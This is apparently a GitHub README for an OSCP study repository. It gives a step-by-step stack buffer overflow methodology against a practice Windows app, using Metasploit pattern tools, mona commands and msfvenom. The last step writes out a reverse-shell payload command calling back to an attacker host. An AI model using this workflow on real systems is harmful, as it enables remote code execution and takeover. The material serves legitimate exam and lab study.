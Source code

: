 # Buffer Overflow methodology

[![GitHub last commit (branch)](https://img.shields.io/github/last-commit/3isenHeiM/OSCP-BoF/master)](https://github.com/3isenHeiM/OSCP-BoF/commits)
[![GitHub stars](https://img.shields.io/github/stars/3isenHeiM/OSCP-BoF)](https://github.com/3isenHeiM/OSCP-BoF/stargazers)

[![Twitter Follow](https://img.shields.io/twitter/follow/3isenHeiM?style=social)](https://twitter.com/3isenHeiM)


## Introduction

These are 7 simple python scripts + a methodology easing the exploitation.
Each script targets a phase of the exploitation :

1. Trigger the BoF (this is facultative for OSCP since they give you a code snippet)
2. Find the EIP offset
3. Confirm the offset
4. Find the badchars
5. Confirm badchars + find JMP ESP instruction
6. Confirm code execution (pop calc)
7. Exploit host

It's based on the [do stack buffer overflow good](https://github.com/justinsteven/dostackbufferoverflowgood)" project (BTW, it's awesomely explained).

## How to use

Follow each step and you'll be able to craft a working example of a BoF exploitation

Note: If after each debug operation performed, the application has become unresponsive; Immunity Debugger should be closed first, then the "vulnapp.exe" application should be restarted, and Attach and Run should be done on Immunity Debugger.

## 1. Segmentation fault : [1_segfault.py](1_segfault.py)

Send enough length string for victim system crash

Note the offeset in ``PARAMETERS.py``, in the variable ``offset_eip``.

## 2. Find the offset : [2_find_offset.py](2_find_offset.py)

Generate the pattern (adapt the buffer lenght) :

    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <String_Length>

    buf += ("<PATTERN>")

Put the output into the variable ``buf`` in ``2_find_offset.py`` & send it.

Once the app crashes, note down the value of the EIP register (which is the address of the next operation to be executed).




If needed : convert the EIP value to ASCII : echo "<EIP_value>" | xxd -r -p

Find the offset at which the sequence is met in the pattern :

    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP_value>

Or, type this in Immunity Debugger : `!mona findmsp`.

Note the value of the EIP offet in the variable ``offset_eip`` in ``PARAMETERS.py``, and the value of the ESP offset in the variable ``offset_esp``.

## 3. Control the EIP : [3_confirm_offset.py](3_confirm_offset.py)

Execute this script as is.

In Immunity Debugger, make sure that
   - **BBBB** in the EIP (in hex, so ``42424242``)
   - **CCCCDDDDD.....** is written in what ESP points to

## 4. Find the bad chars : [4_find_badchars.py](4_find_badchars.py)

Send it to the application

In Immunity Debugger, make mona create a list of badchars :

    !mona bytearray –cpb “\x00”

The console output will tell you where it has been saved.

Compare this file with the stack contents :

    !mona compare -a ESP -f <file_with_bad_chars>
    !mona compare -a <WHATEVER ADDRESS> -f <file_with_bad_chars>

**Note: **always use the full path to the file !

In the mona output, ``Possibly bad chars`` are output.
Put them in the ``badchars`` array in ``PARAMETERS.py``.

## 5. Confirm badchars & find a JMP ESP instruction : [5_find_jmp_esp.py](5_find_jmp_esp.py)

### a. Confirm badchars

Make sure the badchars identified are mentionned in the ``PARAMETERS.py`` file.

Execute the script.

Re-generate a badchar sequence on mona :

    !mona bytearray -cpb "\x00\x04\x05\xA2\xA3\xAC\xAD\xC0\xC1\xEF\xF0"

The console output will tell you where it has been saved.

Compare the ``bytearray.bin`` (**use the full filepath**) and the buffer to make sure they are the same.
That will mean that no new badchar have been detected :

    !mona compare -a ESP -f <file_with_bad_chars>
    !mona compare -a <WHATEVER ADDRESS> -f <file_with_bad_chars>

The mona output status should be ``unmodified`` and you should get a message in the
console saying : ``!!! Hooray, normal shellcode unmodified !!!``

This mean that no other badchars have been detected.

### b. Find a JMP ESP

Ask mona to find the instruction ``JMP ESP`` that will allow the processor to execute
whatever we have put in the stack.

    !mona jmp -r esp -cpb "<bad_chars>"       formatted like this : "\x00\x01"

Put the address returned in the variable ``ptr_jmp_esp`` in ``PARAMETERS.py``


## 6. Pop calc : [6_pop_calc.py](6_pop_calc.py)

This will confirm the code execution on the target host.
This can be used to validate the build-up of the exploit, and set a working basis.

Launch this to produce the shellcode that will make calc pop on the target :

    msfvenom -p windows/exec -b '<badchars>' -f python --var-name shellcode_calc \
    CMD=calc.exe EXITFUNC=thread

Insert the output (python variable ``shellcode_calc``) in the script ``6_pop_calc.py``.

In the script, we will also move ESP up in the stack (instruction ``SUB ESP,0x10``)
This is to avoid the ESP overwrite by the encoder of the payload.
Some guys use a NOP sled, here is a more proper way ;)

Launch the script and enjoy popping calc!

## 7. Create shellcode : [7_exploit.py](7_exploit.py)

Now, you can craft any other shellcode as long as you respect the badchars :

    msfvenom -p windows/shell_reverse_tcp LHOST=<Attacker_IP> LPORT=<Attacker_Port> \
    -f py -b '<badchars>' -e x86/shikata_ga_nai -var-name shellcode

Insert the output (python variable ``shellcode_calc``) in the script ``7_exploit.py``.
